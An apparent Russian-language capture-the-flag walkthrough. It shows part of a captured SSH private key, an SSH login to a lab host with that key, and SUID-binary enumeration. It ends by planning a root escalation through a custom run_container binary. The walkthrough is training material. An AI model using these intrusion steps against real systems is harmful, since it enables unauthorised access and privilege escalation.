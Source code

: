 ```commandline
+Xk2NGp6e98Bjtf7qtBn/0rBfdZjveM1MAAADBANoC+jBOLbAHk2rKEvTY1Msbc8Nf2aXe
v0M04fPPBE22VsJGK1Wbi786Z0QVhnbNe6JnlLigk50DEc1WrKvHvWND0WuthNYTThiwFr
LsHpJjf7fAUXSGQfCc0Z06gFMtmhwZUuYEH9JjZbG2oLnn47BdOnumAOE/mRxDelSOv5J5
M8X1rGlGEnXqGuw917aaHPPBnSfquimQkXZ55yyI9uhtc6BrRanGRlEYPOCR18Ppcr5d96
Hx4+A+YKJ0iNuyTwAAAA90aGlua0BwdWJsaXNoZXIBAg==
-----END OPENSSH PRIVATE KEY-----
```

для того что бы ключик заработал, установим для него соответствующие права и подключимся по ssh:
```commandline
chmod 600 id_rsa
ssh -i id_rsa think@10.10.175.180
yes
id 
sudo -l
ps -p $$
cat /etc/shells
```

### 6. Эскалация привилегий
для этого в поиске найдем google -  suid enumeration find и перейдем по ссылке
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

найдем файлы которые выполняются с максимальными привилегиями суперпользователя:
```commandline
find / -perm -u=s -type f 2>/dev/null
```
получим вот такой список, давайте внимательно на него посмотрим:
```commandline
think@publisher:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/sbin/run_container
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```

меня заинтересовал вот этот файл:
```commandline
/usr/sbin/run_container
```
как же нам его переделать так, что бы мы получили права супер пользователя? Для этого нужно будет запустить этот 
исполняемый файл, но перед этим изменить тот скрипт который он запускает в наших интересах, а именно скопировать 
бинарный шел код, который мы можем запустить с привилегиями супер пользователя. Для этого изучим, а в какой сейчас 
оболочке мы работаем и какие права на чтения и запись имеет эта оболочка:
```commandline
ps -p $$
ls -la /opt
ls /etc/apparmor.d
```